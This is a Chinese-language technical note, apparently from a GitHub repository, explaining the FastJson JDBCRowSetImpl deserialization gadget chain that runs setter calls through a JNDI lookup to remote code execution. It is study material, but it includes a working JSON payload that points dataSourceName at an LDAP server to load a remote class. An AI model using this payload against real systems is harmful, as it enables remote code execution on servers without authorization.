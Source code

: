 # FastJson-JDBCRowSetImpl利用链

介绍：

JDBCRowSetImpl利用链是FastJson反序列化漏洞利用链中的其中一条链，
位于com.sun.rowset.JDBCRowSetImpl，是JDK自带的类，默认存在，并且不需要额外依赖。

用作利用链的成因：

在JDBCRowSetImpl中有两个关键的属性和方法，
第一个是 setDataSourceName，
在这里的String name参数可控，
就可以设置一个JNDI地址，比如rmi://x.x.x.x:1099/Exploit

<img width="1137" height="420" alt="image" src="https://github.com/user-attachments/assets/6d312b1d-2e8b-47b1-b18d-35b136259490" />

第二个是 setAutoCommit，
在设置这个autoCommit参数的时候，JdbcRowsetImpl就会触发connect()方法，
内部调用lookup(dataSourceName)，
这个时候lookup就回去远程加载我们传入的dataSourceName，如果传入的是JNDI，那就会远程加载恶意对象。

<img width="1203" height="651" alt="image" src="https://github.com/user-attachments/assets/d4bf62d0-84a4-40a7-93d0-054d39426a7f" />

<img width="1620" height="1239" alt="image" src="https://github.com/user-attachments/assets/a1f8aa2a-da85-43f2-baaa-0664d6f114e3" />

Payload：

{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://192.168.26.1:1389/nlnvkb\",\"autoCommit\":true}

<img width="1860" height="351" alt="image" src="https://github.com/user-attachments/assets/a0b579ee-2d4b-41b7-808b-83012fa3ad2d" />

当调用parseObject(json)时，FastJson会自动调用目标类的setter方法，
刚才提到的setDataSourceName和setAutoCommit正好都是setter方法。

在setDataSourceName(String name)中把传入的值保存到成员变量dataSourceName，我们可以将它设置为JNDI地址。

在setAutoCommit(true) ，设置参数时会调用connect()方法，connet方法内部会执行lookup(dataSourceName)，

如果这个时候dataSourceName是一个JNDI地址，就会触发JNDI远程加载对象。

parseObject在反序列化时先是调用setDataSourceName()触发恶意JNDI地址，然后调用setAutoCommit()触发connect()，
之后connect()又在内部调用lookup(dataSourceName)，最后发起JNDI请求，远程加载对象。

总结：

Fastjson的@type机制会自动调用目标类的setter方法，setDataSourceName()参数可控——>传入恶意JNDI地址，
setAutoCommit(true)——>触发connect()——>connect()内部触发lookup(dataSourceName)——>JNDI远程加载类——RCE。


参考连接：

https://y4er.com/posts/fastjson-learn/

https://www.bilibili.com/video/BV1pP411N726/



















































